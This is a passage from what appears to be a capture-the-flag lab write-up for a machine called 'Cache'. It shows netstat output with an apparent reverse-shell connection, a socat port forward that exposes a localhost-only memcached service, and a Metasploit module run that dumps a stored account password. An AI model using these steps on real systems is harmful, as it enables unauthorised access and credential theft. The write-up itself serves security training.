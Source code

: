 Enumerating the network connections reveals that *memcached* is running on localhost over port *11211/tcp*.
```md
ash@cache:~$ netstat -tan
netstat -tan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 10.10.10.188:47622      10.10.14.142:4444       ESTABLISHED
tcp        0      1 10.10.10.188:41896      8.8.8.8:53              SYN_SENT   
tcp        0      0 127.0.0.1:11211         127.0.0.1:54694         TIME_WAIT  
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 10.10.10.188:80         10.10.14.142:39190      TIME_WAIT  
tcp6       0      0 10.10.10.188:80         10.10.14.142:39194      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39182      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39196      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39188      TIME_WAIT  
ash@cache:~$ ps aux | grep 11211
ps aux | grep 11211
memcache   908  0.0  0.0 425792  3976 ?        Ssl  04:55   0:01 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash      20348  0.0  0.0  13136  1056 pts/0    S+   07:17   0:00 grep --color=auto 11211
```
As the service is only available for localhost, we will use *socat* to redirect the local to make the service available to the outside. Transfer *socat* to the target and use it to make a port redirection as follows:
```md
ash@cache:~$ ./socat TCP-LISTEN:11111,fork TCP:127.0.0.1:11211 &
./socat TCP-LISTEN:11111,fork TCP:127.0.0.1:11211 &
[1] 20975
```
Now, from the attacker’s machine, let’s use Metasploit to extract the cache:
```md
kali@kali:/data/Cache/files$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > use auxiliary/gather/memcached_extractor
msf5 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(gather/memcached_extractor) > set rhost cache.htb
rhost => cache.htb
msf5 auxiliary(gather/memcached_extractor) > set rport 11111
rport => 11111
msf5 auxiliary(gather/memcached_extractor) > run

[+] 10.10.10.188:11111    - Found 4 keys

Keys/Values Found for 10.10.10.188:11111
========================================

 Key      Value
 ---      -----
 account  "VALUE account 0 9\r\nafhj556uo\r\nEND\r\n"
```
